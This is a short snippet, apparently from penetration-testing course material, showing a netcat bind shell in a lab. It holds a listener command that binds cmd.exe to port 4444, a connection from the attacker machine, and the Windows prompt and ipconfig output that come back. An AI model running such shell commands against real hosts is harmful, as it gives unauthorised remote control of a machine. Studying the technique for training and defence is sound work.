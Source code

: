 # 1) spawn listener and bind cmd.exe
```bat
nc -nlvp 4444 -e cmd.exe
```

# 2) Connection from attacker machine
```sh
nc -nv 10.11.0.22 4444
...
(UNKNOWN) [10.11.0.22] 4444 (?) open

Microsoft Windows [Version 10.0.17134.590]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\offsec> ipconfig
Windows IP Configuration
Ethernet adapter Local Area Connection:
    Connection-specific DNS Suffix . :
    IPv4 Address. . . . . . . . . . . : 10.11.0.22
    Subnet Mask . . . . . . . . . . . : 255.255.0.0
    Default Gateway . . . . . . . . . : 10.11.0.1
```
